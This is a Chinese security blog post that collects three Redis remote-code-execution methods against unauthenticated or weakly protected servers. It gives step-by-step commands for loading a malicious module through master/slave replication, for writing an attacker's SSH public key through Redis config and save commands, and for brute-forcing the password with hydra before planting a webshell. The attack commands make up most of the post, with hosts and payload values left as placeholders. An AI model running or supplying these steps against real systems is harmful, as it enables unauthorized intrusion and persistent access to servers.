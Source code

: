 #  【攻防实战】Redis-RCE集锦   
原创 儒道易行  儒道易行   2025-05-31 12:01  
  
## Redis主从复制实现RCE  
### 漏洞描述  
  
Redis未授权访问在4.x/5.0.5以前版本下，我们可以使用master/slave模式加载远程模块，通过动态链接库的方式执行任意命令。  
### 漏洞实战  
  
通过  
```
redis-cli -h your-ip

```  
  
即可进行连接，可见存在未授权访问漏洞。  
```
info

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpy6FFL703ZLdxoT6uGpjo4086jaO9wAn2zG9qDQ1NerhFXzODGlgrGk2s9pmzbC28ibqLvBIhTbNfw/640?wx_fmt=png&from=appmsg "")  
  
编译POC即可直接执行命令  
```
make 

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpy6FFL703ZLdxoT6uGpjo40KtKw34KFSbBr2KticeBOxB4QseNgf8a7t61dZaWVWGsRJM2z12aroPQ/640?wx_fmt=png&from=appmsg "")  
  
当前目录下生成一个exp.so文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpy6FFL703ZLdxoT6uGpjo407NiaRJ6nf2kMDx9sv67ohjB4UvUmLrcibCRYmnAGxhEe49BGQO0Po0fg/640?wx_fmt=png&from=appmsg "")  
  
第一个ip是目标机器，第二个ip是攻击机  
```
./xxx.py -r xxx -p 6379 -L xxx -P xxx -f xxx.so -c "whoami"

```  
  
漏洞证明  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpy6FFL703ZLdxoT6uGpjo40OBRYcrias9iaERMvP9YeBibRzA2Xx4EibpwBickxU5ElBc9mRoYM14CwY3w/640?wx_fmt=png&from=appmsg "")  
  
未授权验证脚本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpy6FFL703ZLdxoT6uGpjo40ANjJKC4EGz2mJqX7eibnpWicOuRndLDv4wFFGiacTUTNxNhOqNBBeCf7w/640?wx_fmt=png&from=appmsg "")  
  
脚本运行  
```
python xxx.py xxx 6379

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpy6FFL703ZLdxoT6uGpjo40ibuJTYmJZSOXCGeeicL70OlDl0ntkdicorn5DnOSxlVQozfqxzQFyT9oQ/640?wx_fmt=png&from=appmsg "")  
## Redis写入SSH公钥实现RCE  
  
之前进行端口扫描时发现该机器开着6379，尝试Redis弱口令或未授权访问  
  
尝试进行连接Redis，连接成功，存在未授权访问  
```
redis-cli -h x.x.x.x
info

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpy6FFL703ZLdxoT6uGpjo40SxGzhOc95dQ3LvCI4U80zh21k3PapaTVPlicL544CQ0YZGshLmUAafg/640?wx_fmt=png&from=appmsg "")  
  
尝试写入SSH公钥  
  
生成ssh公钥  
```
ssh-keygen -t rsa

```  
  
将公钥导入key.txt文件(前后用\n换行，避免和Redis里其他缓存数据混合)，再把key.txt文件内容写入目标主机的redis缓冲里：  
  
将公钥导入key.txt文件  
```
(echo -e "\n\n"; cat /xxx/xxx; echo -e "\n\n") > key.txt

```  
  
把key.txt文件内容写入目标主机的redis缓冲中  
```
cat key.txt | redis-cli -h x.x.x.x -p 6379 -x set xxx

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpy6FFL703ZLdxoT6uGpjo407k8NGic27lrj1lXTUbAzIItBS5ltFo4j027ticp9WdEBaqfYFUyxuzVQ/640?wx_fmt=png&from=appmsg "")  
  
设置redis的备份路径  
```
config set dir /xxx

```  
  
设置保存文件名  
```
config set dbfilename xxx

```  
  
将数据保存在目标服务器硬盘上  
```
save

```  
  
退出连接  
```
exit

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpy6FFL703ZLdxoT6uGpjo40icxCR7CVdDLz40RGSrnWWtFAKf2AJHGE19KCszpUW5vHVu9RICGqtww/640?wx_fmt=png&from=appmsg "")  
  
连接  
```
ssh x.x.x.x

```  
  
输入私钥  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpy6FFL703ZLdxoT6uGpjo40p896QEl5Ts1W09amvrlLzCuicU6fgzDqcfyIvuLwEwmce8yc1C6tM2w/640?wx_fmt=png&from=appmsg "")  
  
成功连接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpy6FFL703ZLdxoT6uGpjo40Z2AsibCmhnKHquEyqb5AicccohllfrSJUYQyMyiay6BI5NrZiaTAAWkddA/640?wx_fmt=png&from=appmsg "")  
## Redis写入webshell实现RCE  
  
通过hydra进行爆破  
```
hydra -P /xxx/xxx/xxx/xxx x.x.x.x redis 6379

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpy6FFL703ZLdxoT6uGpjo40s4uD160K6lURwMpH7TdIibBQxM4gFzfmsHlQ0ibGU2kQXInCwRIov5hg/640?wx_fmt=png&from=appmsg "")  
  
连接redis  
```
redis-cli -h x.x.x.x -a xxx

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpy6FFL703ZLdxoT6uGpjo40gzW246Da0sTKFl4esH9UYldGgBsGmNpBXRY0xBoA7B4d3oTzorGaRg/640?wx_fmt=png&from=appmsg "")  
  
备份文件写Shell  
  
进入默认目录  
```
config set dir "xxx" 

```  
  
创建文件  
```
config set dbfilename "xxx" 

```  
  
写入webshell  
```
set x "xxx"

```  
  
最后保存  
```
save

```  
  
利用过程  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpy6FFL703ZLdxoT6uGpjo40dFUQHxib29OZ9Hrr4iciceoFjUgrC83n7Mvzup3lKGp48HRr5K8ruiatNA/640?wx_fmt=png&from=appmsg "")  
  
成功连接到server-redis  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpy6FFL703ZLdxoT6uGpjo40310nia4ia9Yvm1ER17emIZibsJrLZ7sEPMvzOLuiaCVYZLrwsNndYf9Jaw/640?wx_fmt=png&from=appmsg "")  
## 攻防交流群  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/v94hWOZcBpy6FFL703ZLdxoT6uGpjo40MVMVxMtP5MicX1GkkRHicibNoaL6h2uCJy4hluz9oUgukD2icGIYe5sI8A/640?wx_fmt=jpeg&from=appmsg "")  
## 声明  
  
文笔生疏，措辞浅薄，敬请各位大佬不吝赐教，万分感谢。  
  
免责声明：由于传播或利用此文所提供的信息、技术或方法而造成的任何直接或间接的后果及损失，均由使用者本人负责， 文章作者不为此承担任何责任。  
  
转载声明：儒道易行 拥有对此文章的修改和解释权，如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章的内容，不得以任何方式将其用于商业目的。  
  

